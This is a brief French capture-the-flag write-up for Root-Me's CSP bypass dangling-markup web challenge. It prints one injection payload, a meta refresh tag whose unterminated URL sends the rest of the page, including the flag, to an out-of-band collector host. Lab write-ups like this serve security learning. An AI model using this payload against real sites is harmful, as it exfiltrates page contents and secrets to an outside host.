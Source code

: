 Le challenge : https://www.root-me.org/fr/Challenges/Web-Client/CSP-Bypass-Dangling-markup


Tout d'abord regardons le csp 
On va remarquer qu'on peut quasiment faire aucune injection, base non prit en charge, img et fetch impossible etc 

Le but ici va essayer de contourner en faisant du danglign markup 
En d'autres termes 

Casser l'html pour mettre en place notre attaque

J'ai essayé ça 
‘‘‘
 "><meta http-equiv=refresh content='0;url=//d1dbg1rz1wg0000hhg90gosiabyyyyyyb.oast.pro/?q=<p>
‘‘‘

"> va casser la balise 
et on casse aussi avec un quote 
et hop on a le contenue de la page et le flag 



